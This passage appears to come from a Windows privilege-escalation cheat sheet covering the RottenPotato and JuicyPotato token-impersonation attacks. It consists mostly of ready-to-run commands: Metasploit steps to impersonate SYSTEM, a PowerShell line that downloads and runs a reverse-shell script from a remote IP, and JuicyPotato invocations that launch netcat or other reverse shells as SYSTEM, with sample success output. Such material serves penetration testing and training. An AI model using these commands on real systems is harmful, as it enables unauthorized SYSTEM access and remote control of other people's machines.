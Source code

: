 ### RottenPotato (Token Impersonation)

- Binary available at : [foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato) and [breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)
- Exploit using Metasploit with `incognito mode` loaded.
    

- ```
    getuid
    getprivs
    use incognito
    list\_tokens -u
    cd c:\temp\
    execute -Hc -f ./rot.exe
    impersonate\_token "NT AUTHORITY\SYSTEM"
    ```
    

```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

### Juicy Potato (Abusing the golden privileges)

> If the machine is **>= Windows 10 1809 & Windows Server 2019** - Try **Rogue Potato**  
> If the machine is **< Windows 10 1809 < Windows Server 2019** - Try **Juicy Potato**

- Binary available at : [ohpe/juicy-potato](https://github.com/ohpe/juicy-potato/releases)
    
- Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)
    

- ```
    whoami /priv
    ```
    
- Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object
    
    - [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise)
    - [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
    - [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
    - [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
    - [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise)
    - [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
    - [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard)
- Execute JuicyPotato to run a privileged command.
    

- ```
    JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
    JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
        Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
        ......
        [+] authresult 0
        {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
        [+] CreateProcessWithTokenW OK
    ```
    